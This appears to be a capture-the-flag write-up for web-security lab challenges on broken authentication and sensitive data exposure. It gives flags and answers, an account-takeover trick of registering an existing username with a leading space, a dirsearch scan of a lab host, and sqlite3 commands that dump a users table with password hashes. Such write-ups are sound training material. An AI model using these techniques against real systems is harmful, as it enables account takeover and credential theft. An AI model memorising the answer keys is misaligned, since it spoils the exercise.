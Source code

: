 
<br><br>
# [Severity 2] Broken Authentication Practical

### What is the flag that you found in darren's account?
```
register a user " darren"
```
> *Answer:* fe86079416a21a3c99937fea8874b667

### What is the flag that you found in arthur's account?
```
register a user " arthur"
```
> *Answer:* d9ac0f7db4fda460ac3edeb75d75e16e


<br><br>
# [Severity 3] Sensitive Data Exposure (Challenge)

### What is the name of the mentioned directory?
```
# dirsearch -u http://10.10.68.46/
...
[03:51:53] 301 -  311B  - /assets  ->  http://10.10.68.46/assets/
[03:51:53] 200 -    2KB - /assets/
...
```
> *Answer:* /assets

### Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
> *Answer:* webapp.db

### Use the supporting material to access the sensitive data. What is the password hash of the admin user?
```
# sqlite3 webapp.db
SQLite version 3.36.0 2021-06-18 18:36:39
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
sqlite> .quit
```
> *Answer:* 6eea9b7ef19179a06954edd0f6c05ceb
